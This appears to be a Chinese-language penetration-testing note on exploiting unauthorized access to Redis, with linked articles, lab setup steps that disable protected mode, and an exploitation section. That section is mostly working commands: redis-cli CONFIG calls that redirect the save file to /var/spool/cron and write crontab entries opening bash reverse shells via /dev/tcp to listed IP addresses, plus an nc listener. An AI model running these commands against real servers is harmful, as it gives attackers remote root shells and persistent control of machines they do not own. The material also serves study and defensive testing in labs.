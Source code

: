 
## Redis

**文章**
- [细数 redis 的几种 getshell 方法](http://b1ue.cn/archives/318.html)

**未授权访问漏洞**
- 简述

    Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的 ssh 公钥写入目标服务器的 `/root/.ssh` 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用 ssh 服务登录目标服务器、添加计划任务、写入 Webshell 等操作。

- 文章
    - [redis未授权访问漏洞利用总结](https://p0sec.net/index.php/archives/69/)
    - [Redis 未授权访问漏洞利用分析](https://hellohxk.com/blog/redis-unauthorized-vulnerability/)
    - [redis未授权访问与ssrf利用](https://www.kingkk.com/2018/08/redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E4%B8%8Essrf%E5%88%A9%E7%94%A8/)
    - [Hackredis Enhanced Edition Script](https://joychou.org/web/hackredis-enhanced-edition-script.html#directory092928099425939341)

- 搭建环境
    ```bash
    wget http://download.redis.io/releases/redis-3.2.0.tar.gz
    tar xzf redis-3.2.0.tar.gz
    cd redis-3.2.0
    make
    ```
    ```vim
    vim redis.conf

    # bind 127.0.0.1
    protected-mode no
    ```
    ```bash
    ./src/redis-server redis.conf
    ```

- 利用
    ```bash
    redis-cli -h <目标IP>
    > info   # 查看 redis 版本信息、一些具体信息、服务器版本信息等等:
    > CONFIG GET dir # 获取默认的 redis 目录
    > CONFIG GET dbfilename # 获取默认的 rdb 文件名
    ```

    **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 7999` 然后执行命令:
    ```bash
    > config set dir /var/spool/cron
    > set -.- "\n\n\n* * * * * bash -i >& /dev/tcp/15.36.8.95/5678 0>&1\n\n\n"
    > set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.72.129/7999 0<&1 2>&1\n"
    > config set dbfilename root
    > save
    ```
